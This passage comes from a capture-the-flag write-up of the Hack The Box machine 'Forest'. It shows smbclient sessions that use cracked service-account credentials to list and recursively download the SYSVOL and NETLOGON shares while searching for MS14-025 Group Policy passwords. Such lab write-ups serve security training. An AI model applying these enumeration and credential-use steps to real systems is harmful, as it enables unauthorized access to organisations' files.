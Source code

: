 ```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Sep 18 20:45:49 2019
  ..                                  D        0  Wed Sep 18 20:45:49 2019

                5069055 blocks of size 4096. 2549457 blocks available
smb: \> exit
                                                                                                                                                                                                                                   
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ smbclient \\\\10.10.10.161\\SYSVOL -U 'svc-alfresco%s3rvice'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Sep 18 20:45:49 2019
  ..                                  D        0  Wed Sep 18 20:45:49 2019
  htb.local                          Dr        0  Wed Sep 18 20:45:49 2019

                5069055 blocks of size 4096. 2549457 blocks available
smb: \> cd htb.local
smb: \htb.local\> dir
  .                                   D        0  Wed Sep 18 13:58:53 2019
  ..                                  D        0  Wed Sep 18 13:58:53 2019
  DfsrPrivate                      DHSr        0  Wed Sep 18 13:58:53 2019
  Policies                            D        0  Wed Sep 18 20:45:57 2019
  scripts                             D        0  Wed Sep 18 20:45:49 2019

```

- let download shares and analysis for passwords especially after found it in my first box [Active-HTB](https://blackninja23.github.io/Active-HTB/) in which it was CVE-2014-1812(MS14-025)

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ smbclient \\\\10.10.10.161\\NETLOGON -U 'svc-alfresco'%'s3rvice' -c 'prompt;recurse;mget *'
                                                                                                             
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ ls -a
.  ..
                                                                                                             
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ smbclient \\\\10.10.10.161\\SYSVOL -U 'svc-alfresco'%'s3rvice' -c 'prompt;recurse;mget *'
NT_STATUS_ACCESS_DENIED listing \htb.local\DfsrPrivate\*
getting file \htb.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 22 as htb.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \htb.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as htb.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \htb.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as htb.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (0.7 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \htb.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3834 as htb.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (2.6 KiloBytes/sec) (average 0.8 KiloBytes/sec)
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ 
```
- After somewhile, there is no CVE-2014-1812(MS14-025)  in this share called SYSVOL and nothing interesting
- Since i can login, let login
